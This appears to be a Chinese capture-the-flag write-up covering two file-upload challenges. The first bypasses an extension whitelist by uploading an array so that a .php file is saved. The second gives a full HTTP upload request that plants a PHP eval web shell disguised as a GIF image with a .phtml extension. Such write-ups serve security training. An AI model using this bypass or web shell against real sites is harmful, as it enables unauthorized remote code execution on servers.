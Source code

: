 ### lab21

这一关是利用数组绕过验证

可以发现`$file_name`经过`reset($file) . '.' . $file[count($file) - 1];`处理。

如果上传的是数组的话，会跳过`$file = explode('.', strtolower($file));`。并且后缀有白名单过滤



而最终的文件名后缀取的是`$file[count($file) - 1]`，因此我们可以让`$file`为数组。`$file[0]`为`1.php/`，也就是`reset($file)`，然后再令`$file[2]`为白名单中的jpg。此时`end($file)`等于jpg，`$file[count($file) - 1]`为空。而 `$file_name = reset($file) . '.' . $file[count($file) - 1];`，也就是`1.php/.`，最终`move_uploaded_file`会忽略掉`/.`，最终上传`1.php`。

![image-20220117225055765](README/image-20220117225055765.png)

## WriteUp

### [极客大挑战 2019]Upload

测试中发现不能出现<?，php文件也不行，可以phtml：

`<script language="php">eval($_POST[cmd])</script>`

payload：(猜测目录为upload)

```
POST /upload_file.php HTTP/1.1
Host: 3efafb21-3a17-40b7-a859-6efe219ae4db.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------236354177817844381945461145
Content-Length: 386
Origin: http://3efafb21-3a17-40b7-a859-6efe219ae4db.node4.buuoj.cn:81
Connection: close
Referer: http://3efafb21-3a17-40b7-a859-6efe219ae4db.node4.buuoj.cn:81/
Upgrade-Insecure-Requests: 1

-----------------------------236354177817844381945461145
Content-Disposition: form-data; name="file"; filename="1.phtml"	
Content-Type: image/jpeg

GIF89a
<script language="php">eval($_POST[cmd])</script>
-----------------------------236354177817844381945461145
Content-Disposition: form-data; name="submit"

```
